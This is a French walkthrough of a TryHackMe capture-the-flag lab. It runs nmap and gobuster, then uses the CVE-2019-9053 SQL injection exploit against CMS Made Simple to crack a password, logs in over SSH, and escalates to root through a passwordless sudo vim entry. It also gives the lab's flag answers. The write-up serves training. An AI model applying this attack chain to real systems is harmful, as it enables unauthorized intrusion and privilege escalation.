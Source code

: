 # Simple CTF #

***

Nous allons faire un scan la machine avec nmap

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nmap -A 10.10.63.136
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-14 13:45 CEST
Nmap scan report for 10.10.63.136
Host is up (0.038s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.93 seconds
```

Nous allons répondre à quelques questions à partir des résultats.

**How many services are running under port 1000?**

Ici on voit 2 services qui fonctionne.
réponse : 2

**What is running on the higher port?**
Le plus haut port est le 2222, qui est le service SSH.
réponse : ssh

***

**What's the CVE you're using against the application?**  
A partir de scan de nmap ou voit qu'il a le service http sur le port 80 qui est ouvert.
Faisons un fuzzing avec gobuster pour voir si il y a pas de liens qui existes.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://10.10.63.136 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.63.136
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/14 14:09:45 Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.63.136/simple/]
/server-status        (Status: 403) [Size: 300]                                  
Progress: 115990 / 220561 (52.59%)                                              ^C
[!] Keyboard interrupt detected, terminating.
                                                                                 
===============================================================
2021/07/14 14:17:19 Finished
===============================================================
```

On voit qu'un lien vers /simples/ existe examinons le.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ lynx http://10.10.63.136/simple/
#                                                                                                                                                                                                                 Home - Pentest it (p3 sur 3)
          + Top simple navigation + left subnavigation + 1 column
          + CSSMenu top + 2 columns
          + CSSMenu left + 1 column
          + Minimal template
          + Higher End
     * Default Extensions
          + Modules
          + Tags

     * Twitter
     * Facebook
     * LinkedIn
     * YouTube
     * Google Plus
     * Pinterest

   © Copyright 2004 - 2021 - CMS Made Simple
   This site is powered by CMS Made Simple version 2.2.8
```

A la fin du site web on voit que le nom de CMS est CMS Made Simple version 2.2.8

***

Faisons une recherche.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit CMS Made simple 2.2.8
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                                                                    | php/webapps/46635.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/exploitdb/exploits/php/webapps/46635.py | grep CVE
# CVE : CVE-2019-9053
```

Ici on voit que c'est le CVE-2019-9053.

Notre réponse est : CVE-2019-9053

***

**To what kind of vulnerability is the application vulnerable?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/exploitdb/exploits/php/webapps/46635.py | head
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053
```

On voit ici c'est une SQL Injection, autrement dit sqli.
La réponse est : sqli

***

**What's the password?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ cp  /usr/share/exploitdb/exploits/php/webapps/46635.py .
tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/wordlists/rockyou.txt | grep  ^......$ > 6lettres.txt
tim@kali:~/Bureau/tryhackme/write-up$ python 46635.py -u http://10.10.31.41/simple/ --crack -w ./6lettres.txt
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
J'utilise un exploit avec les mots de longueur de 6 lettres car c'est sinon c'est long, je connais la longueur de mot de passe grasse au nombre d'astérisque dans la question.  

Ici le mot de passe est : secret 

***

**Where can you login with the details obtained?**

Dans le scan nmap au port 2222 on voit le service SSH.
```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh mitch@10.10.31.41 -p 2222
The authenticity of host '[10.10.31.41]:2222 ([10.10.31.41]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.31.41]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.31.41's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
```

***

**What's the user flag?**
```bash
$ pwd
/home/mitch
$ cat user.txt
G00d j0b, keep up!
```

La réponse est : G00d j0b, keep up!  

***

**Is there any other user in the home directory? What's its name?**
```bash
$ cd ..
$ ls
mitch  sunbath
$ 
```

Ici on voit que l'autre utilisateur : sunbath

***

**What can you leverage to spawn a privileged shell?**

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
``` 

On voit que pour l'utilisateur mitch la commande sudo ne demande aucun mot de passe pour /usr/bin/vim 

Réponse : vim

***

**What's the root flag?**

On utilise vim pour lire le dernier flag.

```bash
sudo /usr/bin/vim /root/root.txt
W3ll d0n3. You made it!
```
La réponse est : W3ll d0n3. You made it!  